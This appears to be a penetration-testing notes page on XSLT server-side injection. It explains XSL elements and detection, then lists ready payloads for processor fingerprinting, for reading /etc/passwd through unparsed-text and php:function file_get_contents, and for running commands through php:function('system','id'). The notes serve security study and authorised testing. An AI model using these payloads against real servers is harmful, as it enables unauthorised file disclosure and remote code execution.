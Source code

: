 ```yaml
---
layout: default
title: XSLT
permalink: /Web/xslt/
---
```


# XSLT Server-Side Injection
XSLT (Extensible Stylesheet Language Transformations) server-side injection is a vulnerability that arises when an attacker can manipulate XSLT transformations performed on the server.
XSLT is a language used to transform XML documents into other formats, such as HTML, and is commonly employed in web applications to generate content dynamically.

XSLT can be used to define a data format which is subsequently enriched with data from the XML document. XSLT data is structured similarly to XML. However, it contains XSL elements within nodes prefixed with the xsl-prefix. The following are some commonly used XSL elements:
- `<xsl:template>`: This element indicates an XSL template. It can contain a match attribute that contains a path in the XML document that the template applies to
- `<xsl:value-of>`: This element extracts the value of the XML node specified in the select attribute
- `<xsl:for-each>`: This element enables looping over all XML nodes specified in the select attribute
- `<xsl:sort>`: This element specifies how to sort elements in a for loop in the select argument. Additionally, a sort order may be specified in the order argument
- `<xsl:if>`: This element can be used to test for conditions on a node. The condition is specified in the test argument.

## Identifying XSLT Injection
Suppose a web application stores user input in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if the input is inserted without sanitization before XSLT processing. To confirm that, we can try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`.
It doesn't confirm that XSLT injection present, but an indication.

## Information Disclosure
We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:
```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

## Local File Inclusion (LFI)
We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function unparsed-text that can be used to read a local file:
```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
It was only introduced in XSLT version 2.0. thus might not work.
However, if the XSLT library is configured to support PHP functions, we can call the PHP function file_get_contents using the following XSLT element:
```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```
## Remote Code Execution (RCE)
If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function system to execute a command:
```
<xsl:value-of select="php:function('system','id')" />
```




